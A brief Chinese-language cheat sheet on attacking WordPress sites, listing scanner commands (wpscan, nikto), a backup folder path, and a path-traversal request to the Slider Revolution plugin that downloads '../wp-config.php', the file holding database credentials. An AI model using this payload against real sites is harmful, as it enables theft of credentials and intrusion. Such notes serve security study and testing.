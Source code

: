 # WordPress漏洞利用  

## 学习链接

> - WordPress插件注入漏洞 [EXPLOIT-DATABASE](https://www.exploit-db.com/exploits/36613/)  
> - [FREEBUF](http://www.freebuf.com/articles/web/65894.html)

## WPScan的利用

> - 命令  wpscan -url URL



## nikto的利用

> - 命令  nikto  -h   URL  
> - 可以通过一些cookies查看是否为WordPress站点，用于验证是否为WordPress站点


## Backup组件下载漏洞

> - 路径: wp-content/wpbackitup_backups/


## Slider Revolution Plugin 任意文件下载漏洞

> - 路径: wp-admin/admin-ajax.php?action=revslider_show_image&img=文件名  
> - 例如: wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php
> - 可以下载当前目录下的任意文件(路径首先正确),特别地，当拿到wp-config文件后就bam!bam!bam!

## Complete Gallery Manager 3.3.3任意文件上传漏洞

